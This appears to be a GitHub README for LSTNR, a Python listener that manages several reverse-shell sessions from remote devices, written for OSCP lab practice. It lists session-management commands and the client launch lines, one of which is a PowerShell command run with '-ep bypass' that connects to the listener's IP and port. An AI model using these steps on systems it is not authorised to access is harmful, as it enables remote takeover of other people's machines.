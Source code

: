 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI).

While running, lstnr.py writes to a log file in the directory it is ran in.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```
git clone github.com/bwithe/LSNTR

cd lstnr
```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`
- MENU COMMANDS
    - `list-sessions` or `ls` : lists connected clients
    - `connect-session <ID>` or `cs <ID>` : connects to that session
    - `kill-session <ID>` or `ks <ID>` : will terminate a session per id
    - `kill-lstnr` or `exit` : will terminate all sessions and stop the script (currently working out bugs when shutting down)
- SESSION COMMANDS
    - `bg-session` or `bs` : backgrounds the active session
    - `kill-session` or `ks` : while in a session will terminate it

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# Screenshot examples:

![windows-kali](https://github.com/user-attachments/assets/d3d4bae8-014c-4e3b-bf83-112939eb8250)

![windows-curl](https://github.com/user-attachments/assets/7e52e3f0-0c24-4f8f-a7da-739802ed4170)

# TROUBLESHOOTING
- If you are having issues closing the LSTNR
```
ps aux | grep lstnr
kill -9 <PID>
```

